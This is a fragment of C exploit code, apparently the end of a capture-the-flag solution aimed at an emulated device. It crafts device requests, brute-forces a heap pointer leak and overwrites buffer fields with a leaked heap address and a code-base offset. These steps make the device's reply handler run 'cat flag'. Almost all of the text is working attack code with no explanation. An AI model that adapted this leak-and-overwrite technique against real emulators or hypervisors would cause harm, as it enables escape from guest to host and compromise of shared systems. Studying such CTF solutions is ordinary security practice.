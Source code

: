```
    void *phys_addr = virt2phys(req);
    printf("req @ %p\n", req);
    printf("req phys addr @ %p\n", phys_addr);

    req->buf_len = 6;
    req->data[0] = 0x12;
    req->data[1] = 0x40;
    req->data[2] = 0;
    req->data[3] = 0x17;
    req->data[4] = 0x34;
    req->data[5] = 0x51;

    auth();
    send_req(req);
    send_req(req);

    set_register_b(0xdead);
    ctf_process_reply();
    getchar();

    req->target_id = 1;
    send_req(req);

    //ctf_reset();
    
    set_register_b(phy_userbuf & 0xffffffff);
    set_register_a(phy_userbuf >> 32);

    // leak data
    pointer = 0;
    bruteforce_heap();
    printf("heap: %p\n", pointer);

    *(uint64_t*)(userbuf + 0x10) = (void*)pointer;
    *(uint64_t*)(userbuf + 0x28) = text + 0x204948;
    strcpy(userbuf, "cat flag\x00");

    ctf_add_cmd_data(0x200 - 0x10);
    ctf_process_reply();


    return 0;
}    


```


